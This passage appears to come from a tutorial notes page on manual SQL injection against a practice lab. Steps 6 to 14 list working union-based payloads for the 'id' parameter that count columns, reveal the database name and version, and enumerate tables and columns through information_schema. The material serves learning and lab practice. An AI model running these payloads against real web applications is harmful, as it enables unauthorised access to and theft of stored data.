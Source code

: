 payload - **?id=' order by 4 --+**

Here it gives Unknown column '4' in 'order clause' error it means there are 3 column exists.

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%205.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%205.png)

7.  payload = **?id=' union select 1,2,3 --+   —>** for vulnerable column. Here 2,3 are reflected from database means 2nd and 3rd column is vulnerable to sql injection.

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%206.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%206.png)

8. Database and version 

Payload - **?id=-99' union select 1,database(), version() --+**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%207.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%207.png)

     Database - security 
     Version - 5.1.73

9. **select table_name from information_schema.tables;** - used to retrieve table from another database

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%208.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%208.png)

10. **select table_name from information_schema.tables where table_schema=database(); -** To retrieve table from current database

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%209.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%209.png)

11. Payload - **?id=-99' union select 1,2,table_name from information_schema.tables where table_schema=database() --+** 

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%2010.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%2010.png)

12. use group_concat() to retrieve all tables

Payload - **?id=-99' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%2011.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Capture%2011.png)

13. To retrieve table in login field(2nd column).

Payload -

1) **?id=-99' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+**

2) **?id=-99' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 --+**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled.png)

14. To retrieve column names.

Payload - **?id=-99' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" --+**
